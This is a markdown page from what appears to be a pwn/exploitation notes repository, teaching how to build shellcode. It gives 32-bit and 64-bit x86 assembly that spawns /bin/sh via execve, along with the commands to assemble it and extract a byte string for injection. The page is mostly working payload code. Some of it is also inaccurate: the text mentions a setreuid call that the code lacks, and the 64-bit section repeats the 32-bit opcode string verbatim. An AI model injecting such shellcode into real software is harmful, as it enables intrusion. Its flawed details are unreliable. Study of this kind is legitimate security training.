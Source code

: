 # Construct your own ShellCode

A shellcode is a small piece of code written in low-level programming languages, typically assembly language, that is designed to be injected into a system to perform specific actions.

Exploit: [Shell code injection](/pwn/shell-code-injection.md)

### Table of Content

- [32 bit](#32-bit)
- [64 bit](#64-bit)
    - [AntiDump + Obfuscation](#anti-dump--obfuscation)

[ASM cheat sheet](https://github.com/Gottiee/asm)

## 32 bit

### asm

To write your own shell code, you need to know how code in assembly. 

[Asm Cheat Sheet](https://github.com/Gottiee/asm)

Example of shell code calling setreuid and execve(/bin/bash)

```asm
global _start

_start:

    xor eax, eax
    push eax
    push 0x68732f2f ; //sh
    push 0x6e69622f ; /bin
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80
```

Compile it:

```bash
$> nasm -f elf32 main.asm -o asm.o
$> ld -m elf_i386 asm.o -o asm
```

Generat opcode:

```bash
$> for i in $(objdump -D asm |grep "^ " |cut -f2); do echo -n '\\x'$i; done;echo
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

## 64 bit

```asm
global _start
   
_start:
	mov rcx, 0x68732f6e69622f   ; /bin/sh
	push rcx                    ; push the immediate value stored in rcx onto the stack
	xor rdx, rdx
	lea rdi, [rsp]              ; load the address of the string that is on the stack into rdi
	mov al, 0x3b
	syscall                     ; make the syscall
```

Compile it:

```bash
nasm -f elf64 main.asm -o asm.o
ld asm.o -o asm
```

Generat opcode:

```bash
$> for i in $(objdump -D asm |grep "^ " |cut -f2); do echo -n '\\x'$i; done;echo
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Anti dump + Obfuscation

- [docu](https://pentester.blog/?cat=2)

---

[**:arrow_right_hook: Back Pwn**](/pwn/pwn.md)
